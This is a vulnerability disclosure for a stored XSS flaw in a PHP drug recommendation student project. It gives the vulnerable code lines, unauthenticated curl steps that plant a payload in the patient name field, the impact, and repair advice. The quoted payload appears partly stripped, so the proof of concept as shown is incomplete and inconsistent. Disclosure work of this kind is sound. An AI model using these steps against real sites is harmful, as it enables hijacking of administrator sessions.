


# sourcecodester Drug Recommendation System Using Machine Learning, PHP, and MySQL Database V1.0 /patient.php 'txtname' Stored XSS Vulnerability

- **Author:** （VulDB 账号名：提交时从凭据引用 `vuldb.txt` 读取填入，不落盘、不在报告中展示）

# Vendor and Software Links

- https://www.sourcecodester.com/php/18278/drug-recommender-web-app-student-project.html
- （页面内 Download 按钮 → https://www.sourcecodester.com/download-code?nid=18278）

# Overview

- "Drug Recommendation System Using Machine Learning, PHP, and MySQL Database" V1.0 contains a critical security vulnerability related to Cross-Site Scripting (XSS). The patient registration page `/patient.php` accepts an attacker-controlled patient name and stores it in the database without sanitization; the value is later rendered unescaped in the admin panel, enabling attackers to execute arbitrary script code in the browsers of administrative users, potentially hijacking administrator sessions and compromising the security and privacy of the affected site.

# Details of Vulnerability

- Application Name: Drug Recommendation System Using Machine Learning, PHP, and MySQL Database
- Affected Version: V1.0
- Vulnerable Parameter: `txtname` (POST)
- Injection Point: `/patient.php`
- Render Points: `/Admin/recommend.php` (primary — inside an HTML `<select>` context), `/Admin/patient_record.php` (secondary — inside a `<td>` table cell)
- **No authentication is required to plant the payload.** The payload triggers when an administrator opens the "Drug Recommendation" page of the admin panel.

# Vulnerability Description

- The '`txtname`' parameter in the `/patient.php` file of the "Drug Recommendation System" V1.0 is vulnerable to Stored Cross-Site Scripting (XSS). The value is stored in the `patients` table without validation (`patient.php:6` — `$name = trim($_POST['txtname']);`, inserted via a prepared statement that protects against SQL injection but performs **no output-side escaping**). When the admin panel renders the patient list (`Admin/recommend.php:72` — `echo "<option value=\"{$row['id']}\" $selected>{$row['name']}</option>";`), the payload is echoed raw inside a `<select>` element. A payload closing the `<select>`/`<option>` context with `</select>` breaks out of the option-list parsing context and becomes an active HTML element, so the injected `onerror` handler executes in the administrator's browser.

# Root Cause

- Injection (no sanitization on input), `patient.php:6` and `patient.php:26-27`:
  ```php
  $name = trim($_POST['txtname']);
  ...
  $insert_stmt = $conn->prepare("INSERT INTO patients (name, age, email, phone,sex) VALUES (?, ?, ?, ?,?)");
  ```
- Render (no escaping on output), `Admin/recommend.php:72`:
  ```php
  echo "<option value=\"{$row['id']}\" $selected>{$row['name']}</option>";
  ```
- Same unescaped value is also rendered at `Admin/patient_record.php:95` (`<td><?php echo $row['name'] ?></td>`).

# Proof of Concept

- Submit the patient registration form on `/patient.php` (no login required) with the payload below in the name field. Then open `/Admin/recommend` as an administrator — the payload executes.

- **Payload:** `</select>`

```bash
# 1) plant the payload (unauthenticated)
$ curl -s -X POST "http://127.0.0.1:8137/patient.php" \
       --data-urlencode "btnadd=1" \
       --data-urlencode "txtname=</select>" \
       --data-urlencode "txtemail=xsstest@example.com" \
       --data-urlencode "txtphone=13800000000" \
       --data-urlencode "txtdob=2000-01-01" \
       --data-urlencode "cmdsex=Male"
  -> "Patient registered successfully!"

# 2) admin panel renders the payload raw (fetched HTML, unescaped)
$ curl -s "http://127.0.0.1:8137/Admin/recommend"
  <option value="16" ></select>
```

The `` element escapes the `<select>` parsing context and becomes an active element; `onerror` fires immediately when an administrator opens the page.

## Screenshots (authenticated admin session, real browser)

**1) Context breakout visible — payload rendered below the Patient Name `<select>`** (the `</select>` in the stored name closed the select early; the injected `` becomes an active element — broken-image icon visible right under the select):



**2) Arbitrary JS execution in the admin's browser** — the screenshot below was taken in the logged-in administrator session right after opening `/Admin/recommend`. `alert(document.domain)` fired twice (handled via browser dialogs: two `alert: 127.0.0.1.` dialogs were raised and accepted), and the stored payload additionally executed `document.querySelector('.content-wrapper').style.background='red'` — the whole admin content area is repainted red purely by the injected patient-name JavaScript:



> Note on variants: the screenshots use the same `</select>` vector as the primary payload above, with the `onerror` body changed to a visually verifiable action (`style.background='red'` / `alert()`), because native `alert()` dialogs cannot be rasterized into CDP screenshots. The original `alert(document.domain)` payload itself fired two dialogs on page load (captured in the reproduction transcript above).


# Impact

- An unauthenticated attacker can persist a payload that executes in the browser of every administrator visiting the Drug Recommendation page (or the patient record page). Successful exploitation allows session cookie theft, unauthorized actions performed in the admin session (user creation, role escalation, data deletion), and silent redirection — a direct path to full application takeover.

# Suggested repair

1. **Output encoding:** escape all user-controlled values when rendering — `htmlspecialchars($row['name'], ENT_QUOTES, 'UTF-8')` in `Admin/recommend.php` and `Admin/patient_record.php`. Pay attention to non-HTML contexts (`<option>` inside `<select>` cannot contain element children — escape before output rather than relying on markup).
2. **Input validation:** reject or sanitize the patient `name` field on input (allow-list of characters, sane length) in `/patient.php`.
3. **Additional hardening:** add `HttpOnly`/`SameSite` cookie flags so script execution cannot trivially exfiltrate session cookies, and enforce the admin authentication check with `exit` after the redirect header.
